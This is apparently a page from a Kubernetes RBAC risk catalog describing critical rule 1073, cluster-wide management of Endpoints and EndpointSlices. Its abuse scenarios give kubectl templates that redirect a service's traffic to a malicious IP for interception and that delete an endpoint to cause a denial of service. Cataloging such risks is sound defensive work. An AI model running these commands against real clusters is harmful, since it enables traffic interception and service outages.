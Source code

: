 ```yaml
---
id: 1073
title: "Manage Endpoints or EndpointSlices cluster-wide"
description: "Allows creating, updating, or deleting Endpoints/EndpointSlices for services across all namespaces. This can be used to redirect traffic intended for legitimate services to malicious pods (Man-in-the-Middle), cause denial of service, or bypass network policies."
category: NetworkManipulation
risk_level: RiskLevelCritical
date: ""
---
```


## Overview

| Field         | Value                                                                                                                                                 |
| ------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------- |
| ID            | 1073                                                                                                                                                  |
| Name          | Manage Endpoints or EndpointSlices cluster-wide                                                                                                       |
| Risk Category | NetworkManipulation                                                                                                                                   |
| Risk Level    | {{< risk Critical >}}                                                                                                                                 |
| Role Type     | ClusterRole                                                                                                                                           |
| API Groups    | core, discovery.k8s.io                                                                                                                                |
| Resources     | endpoints, endpointslices                                                                                                                             |
| Verbs         | create, update, patch, delete, get, list                                                                                                              |
| Tags          | {{< tag "DenialOfService" >}} {{< tag "ManInTheMiddle" >}} {{< tag "NetworkManipulation" >}} {{< tag "Tampering" >}} {{< tag "TrafficRedirection" >}} |

## Description

Allows creating, updating, or deleting Endpoints/EndpointSlices for services across all namespaces. This can be used to redirect traffic intended for legitimate services to malicious pods (Man-in-the-Middle), cause denial of service, or bypass network policies.

## Abuse Scenarios

1. Create a new Endpoint to redirect traffic for a service to a malicious IP.

```bash
kubectl create -n <namespace> -f - <<EOF
apiVersion: v1
kind: Endpoints
metadata:
  name: <service-name> # Must match an existing service name
subsets:
  - addresses:
      - ip: <malicious-ip-address>
    ports:
      - port: <service-port>
EOF
# Example: kubectl create -n default -f - <<EOF ... EOF (redirect 'kubernetes' service)

```

2. Delete an existing Endpoint, causing service disruption (DoS).

```bash
kubectl delete endpoint <endpoint-name> -n <namespace>
# Example: kubectl delete endpoint my-app-service -n production

```
